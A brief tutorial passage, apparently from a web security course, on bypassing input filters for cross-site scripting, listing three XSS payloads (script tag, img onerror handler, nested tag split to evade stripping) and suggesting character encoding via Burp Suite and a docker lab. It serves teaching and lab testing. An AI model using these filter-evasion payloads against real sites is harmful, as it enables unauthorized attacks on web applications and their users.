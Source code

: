 ## Bypassing Input Validation and Encoding Techniques

You can try many different ways to try and bypass filters.

You can try a number of the following for different results.

```
<script>prompt(1)</script>
<img src=0 onerror=prompt(1)>
<scr<script>ipt>prompt(1)</scr</script>ipt>
```

You can also encode different characters if you see things that are being stripped out.  There are a number of options also in burpsuite to help with encoding.

You also have the docker lab to use.  The Input Validation lab can be used to test a number of these.